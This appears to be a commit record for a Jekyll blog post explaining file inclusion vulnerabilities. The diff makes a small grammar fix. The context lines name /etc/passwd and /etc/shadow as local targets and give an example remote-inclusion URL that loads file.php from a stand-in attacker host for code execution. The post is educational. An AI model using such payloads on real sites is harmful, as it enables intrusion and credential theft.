

Before and after one commit to 20kilograma/blog, a Jekyll site: the page built from rfi-lfi.md, in a window 1280 px wide. Shown: the part 829-1129 px from the top of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files.

Commit message:
Update rfi-lfi.md

```diff
--- a/rfi-lfi.md
+++ b/rfi-lfi.md
@@ -14,7 +14,7 @@ for example <code> /etc/passwd </code> or <code> /etc/shadow </code>.
 <br>
 <center> <img src="lfi-example.PNG"/> </center>
 <br>
-On the other hand while exploiting RFI you can upload file from remote server which in 99% will result in
+On the other hand while exploiting RFI you can upload file from remote server which in 99% of the times will result in
 RCE(Remote Code Execution). For example <code> https://www.site.com/app.php?file=http://attackers.website.com/file.php </code>.
 You could execute malicious code from the <code> file.php </code> file and use it for evil intention. <br>
 <br>
```
